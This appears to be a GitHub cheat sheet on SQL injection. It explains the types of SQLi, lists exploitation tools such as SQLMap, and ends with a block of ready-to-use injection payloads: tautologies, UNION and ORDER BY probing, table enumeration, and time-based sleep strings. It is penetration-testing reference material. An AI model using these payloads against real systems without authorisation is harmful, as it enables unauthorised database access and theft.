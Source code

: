 #### SQL Injection

In this section, we'll explain what SQL injection is, describe some common examples, explain how to find and exploit various kinds of SQL injection vulnerabilities, and summarize how to prevent SQL injection. 

#### What is SQL injection (SQLi)?

SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users, or any other data that the application itself is able to access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

In some situations, an attacker can escalate an SQL injection attack to compromise the underlying server or other back-end infrastructure, or perform a denial-of-service attack.


|    SQL Injection Type        | Description                     
|----------------|-------------------------------|
|In-band SQLi (Classic SQLi)|In-band SQL Injection is the most common and easy-to-exploit of SQL Injection attacks. In-band SQL Injection occurs when an attacker is able to use the same communication channel to both launch the attack and gather results. The two most common types of in-band SQL Injection are Error-based SQLi and Union-based SQLi. |    
|Error-based SQLi          |Error-based SQLi is an in-band SQL Injection technique that relies on error messages thrown by the database server to obtain information about the structure of the database. In some cases, error-based SQL injection alone is enough for an attacker to enumerate an entire database.| 
|Union-based SQLi         |Union-based SQLi is an in-band SQL injection technique that leverages the UNION SQL operator to combine the results of two or more SELECT statements into a single result which is then returned as part of the HTTP response.|
|Inferential SQLi (Blind SQLi)|Inferential SQL Injection, unlike in-band SQLi, may take longer for an attacker to exploit, however, it is just as dangerous as any other form of SQL Injection. In an inferential SQLi attack, no data is actually transferred via the web application and the attacker would not be able to see the result of an attack in-band (which is why such attacks are commonly referred to as “blind SQL Injection attacks”). Instead, an attacker is able to reconstruct the database structure by sending payloads, observing the web application’s response and the resulting behavior of the database server. The two types of inferential SQL Injection are Blind-boolean-based SQLi and Blind-time-based SQLi.|
|Boolean-based (content-based) Blind SQLi |Boolean-based SQL Injection is an inferential SQL Injection technique that relies on sending an SQL query to the database which forces the application to return a different result depending on whether the query returns a TRUE or FALSE result. Depending on the result, the content within the HTTP response will change, or remain the same. This allows an attacker to infer if the payload used returned true or false, even though no data from the database is returned.|
|Time-based Blind SQLi |Time-based SQL Injection is an inferential SQL Injection technique that relies on sending an SQL query to the database which forces the database to wait for a specified amount of time (in seconds) before responding. The response time will indicate to the attacker whether the result of the query is TRUE or FALSE. Depending on the result, an HTTP response will be returned with a delay, or returned immediately. This allows an attacker to infer if the payload used returned true or false, even though no data from the database is returned.|
|Out-of-band SQLi|Out-of-band SQL Injection is not very common, mostly because it depends on features being enabled on the database server being used by the web application. Out-of-band SQL Injection occurs when an attacker is unable to use the same channel to launch the attack and gather results. Out-of-band techniques, offer an attacker an alternative to inferential time-based techniques, especially if the server responses are not very stable (making an inferential time-based attack unreliable).|
| Voice Based Sql Injection | It is a sql injection attack method that can be applied in applications that provide access to databases with voice command. An attacker could pull information from the database by sending sql queries with sound. |

#### SQL Injection Vulnerability Scanner Tool's :

* [SQLMap](https://github.com/sqlmapproject/sqlmap) – Automatic SQL Injection And Database Takeover Tool

* [jSQL Injection](https://github.com/ron190/jsql-injection) – Java Tool For Automatic SQL Database Injection

* [BBQSQL](https://github.com/Neohapsis/bbqsql) – A Blind SQL-Injection Exploitation Tool

* [NoSQLMap](https://github.com/codingo/NoSQLMap) – Automated NoSQL Database Pwnage

* [Whitewidow](https://www.kitploit.com/2017/05/whitewidow-sql-vulnerability-scanner.html) – SQL Vulnerability Scanner

* [DSSS](https://github.com/stamparm/DSSS) – Damn Small SQLi Scanner

* [explo](https://github.com/dtag-dev-sec/explo) – Human And Machine Readable Web Vulnerability Testing Format

* [Blind-Sql-Bitshifting](https://github.com/awnumar/blind-sql-bitshifting) – Blind SQL-Injection via Bitshifting

* [Leviathan](https://github.com/leviathan-framework/leviathan) – Wide Range Mass Audit Toolkit

* [Blisqy](https://github.com/JohnTroony/Blisqy) – Exploit Time-based blind-SQL-injection in HTTP-Headers (MySQL/MariaDB)
#### Generic SQL Injection Payloads

```
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'''''''''''''UNION SELECT '2
%00
/*…*/ 
+		addition, concatenate (or space in url)
||		(double pipe) concatenate
%		wildcard attribute indicator

@variable	local variable
@@variable	global variable


# Numeric
AND 1
AND 0
AND true
AND false
1-false
1-true
1*56
-2


1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+

1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+

1' GROUP BY 1,2,--+
1' GROUP BY 1,2,3--+
' GROUP BY columnnames having 1=1 --


-1' UNION SELECT 1,2,3--+
' UNION SELECT sum(columnname ) from tablename --


-1 UNION SELECT 1 INTO @,@
-1 UNION SELECT 1 INTO @,@,@

1 AND (SELECT * FROM Users) = 1	

' AND MID(VERSION(),1,1) = '5';

' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --


Finding the table name


Time-Based:
,(select * from (select(sleep(10)))a)
%2c(select%20*%20from%20(select(sleep(10)))a)
';WAITFOR DELAY '0:0:30'--

Comments:

#	    Hash comment
/*  	C-style comment
-- -	SQL comment
;%00	Nullbyte
`	    Backtick
```
